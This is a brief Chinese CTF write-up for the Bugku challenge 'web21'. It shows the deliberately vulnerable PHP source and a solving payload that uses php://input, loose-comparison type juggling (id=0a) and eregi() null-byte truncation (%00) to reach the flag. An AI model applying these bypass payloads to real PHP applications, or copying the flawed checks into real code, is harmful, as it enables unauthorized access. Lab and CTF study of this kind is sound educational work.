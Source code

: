 # web21 - php://input流, ereg()%00截断漏洞
  
payload:  
`GET：?id=0a&a=php://input&b=%0011111`
`POST：bugku is a nice plateform!`

解释：  
1. id=0a绕过弱类型比较。 

2. ereg()存在%00截断，因此“111%0011111（即111）”可以匹配到“1114”。  


题目源码：  
```php
<?php
if(!$_GET['id'])
{
    header('Location: hello.php?id=1');
    exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
    echo 'no no no no no no no';
    return;
}
$data = @file_get_contents($a,'r');
if ($data == "bugku is a nice plateform!" and $id == 0 and strlen($b) > 5 and eregi("111" . substr($b, 0, 1), "1114") and substr($b, 0, 1) != 4)
{
    $flag = "flag{***********}"
}
else
{
    print "never never never give up !!!";
}


?> 
```

ps. hackbar不好用，用max hackbar!